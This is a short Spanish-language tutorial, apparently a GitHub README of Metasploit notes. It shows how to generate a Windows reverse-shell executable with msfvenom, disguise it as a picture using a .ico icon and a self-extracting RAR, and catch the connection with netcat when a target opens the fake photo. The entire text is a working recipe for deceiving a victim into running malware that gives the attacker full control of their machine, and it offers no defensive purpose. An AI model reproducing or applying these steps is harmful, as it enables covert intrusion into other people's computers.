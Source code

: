 # Creamos el payload (virus) en linux preferentemente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o virus.exe
```

--------------------------------------

# Nos lo pasamos a windows para seguir trabajando ahi y lo guardamos en una carpeta junto con una imagen

---------------------------------------------

# Con esa imagen que queramos la transformamos a formato .ico 
# Hay paginas gratis en internet para hacer eso aca dejo una sino busca otra
 [Convertidor Imagen](https://imagen.online-convert.com/es/convertir-a-ico)

---------------------------

# Convertimos a rar seleccionando juntos el virus y la foto y (marcamos las siguientes casillas)
![config](https://github.com/sav404/Metasploit-notes/assets/169759579/45910970-34fa-414c-a45a-0159ae673754)


-------------------------------------

# En la pestaña texto e iconos y examinamos en cargar icono desde fichero y elegimos la foto en formato .ico


![examinar](https://github.com/sav404/Metasploit-notes/assets/169759579/08e7ee59-3455-4418-ae4d-05cd8c77c8cb)


# Se nos va a crear un archivo como este

![Captura de pantalla 2023-07-04 165159](https://github.com/sav404/Metasploit-notes/assets/169759579/0066de22-276e-469b-ba12-a32289eaa0a1)


# Nos ponemos en escucha con netcat en el puerto para recibir la señal en el momento que el objetivo abra la foto y obtendremos acceso total a su maquina. 

----

